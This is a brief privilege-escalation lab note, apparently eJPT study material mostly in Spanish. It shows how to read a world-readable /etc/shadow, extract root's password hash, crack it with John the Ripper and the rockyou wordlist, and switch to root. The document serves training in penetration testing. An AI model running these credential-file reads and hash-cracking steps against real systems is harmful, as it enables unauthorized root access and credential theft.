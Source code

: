 Archivo Legible: /etc/shadow

- El archivo /etc/shadow contiene hashes de contraseñas de usuario y normalmente sólo puede leerlo el usuario root.

```
   ls -l /etc/shadow
```

- Vea el contenido del archivo /etc/shadow:

```
	cat /etc/shadow
```

Cada línea del archivo representa un usuario. El hash de contraseña de un usuario (si tiene uno) se puede encontrar entre el primer y segundo dos puntos (:) de cada línea.

- Save the root user's hash to a file called hash.txt on your Kali VM and use john the ripper to crack it. You may have to unzip /usr/share/wordlists/rockyou.txt.gz first and run the command using sudo depending on your version of Kali:
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

- Switch to the root user, using the cracked password:

```
su root
```

enlace:
[[Preparacion-Ejpt]]
[[Permisos de archivos débiles- Escribible]]